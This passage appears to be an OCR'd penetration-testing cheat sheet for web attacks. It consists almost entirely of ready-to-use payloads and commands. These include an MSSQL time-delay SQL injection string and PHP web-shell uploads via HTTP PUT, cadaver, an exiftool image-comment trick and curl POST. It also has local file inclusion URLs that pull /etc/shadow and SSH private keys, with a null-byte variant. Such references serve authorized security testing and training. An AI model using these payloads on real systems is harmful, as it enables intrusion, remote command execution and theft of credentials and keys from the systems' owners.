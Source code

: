MSSQL

'; WAITFOR DELAY '00:00:30'; --

File Upload
HTTP PUT

1 nmap -p 80 192.168.1.103 --script http-put --script-args http-put.url='/dav
2
3 curl -X PUT -d '<?php system($_GET["c"]);?>' http://192.168.2.99/shell.php

Cadaver

1 cadaver http://192.168.1.103/dav/
2 put /tmp/shell.php

JPG to PNG shell

1 <?php system($_GET['cmd']); ?> //shell.php
2 exiftool "-comment<=shell.php" malicious.png
3 strings malicious.png | grep system

Upload Files through POST

1 # POST file
2 curl -X POST -F "file=@/file/location/shell.php" http://$TARGET/upload.php
3
4 # POST binary data to web form
5 curl -F "field=<shell.zip" http://$TARGET/upld.php -F 'k=v' --cookie "k=v;"

POST binary data to a web form

curl -F "field=<shell.zip" http://$TARGET/upld.php -F 'k=v' --cookie "k=v;" -F "submit=true" -L -
v

PUTing File on the Webhost via PUT verb
curl -X PUT -d '<?php system($_GET["c"]);?>' http://192.168.2.99/shell.php

LFI

Files

1 /etc/passwd
2 /etc/shadow
3 /etc/knockd.conf // port knocking config

LFI with Wfuzz

wfuzz -c -w /usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt

Basic LFI

1 http://url/index.php?page=../../../etc/passwd
2 http://url/index.php?page=../../../etc/shadow
3 http://url/index.php?page=../../../home/user/.ssh/id_rsa.pub
4 http://url/index.php?page=../../../home/user/.ssh/id_rsa
5 http://url/index.php?page=../../../home/user/.ssh/authorized_keys

Null byte (%00)

http://url/index.php?page=../../../etc/passwd%00
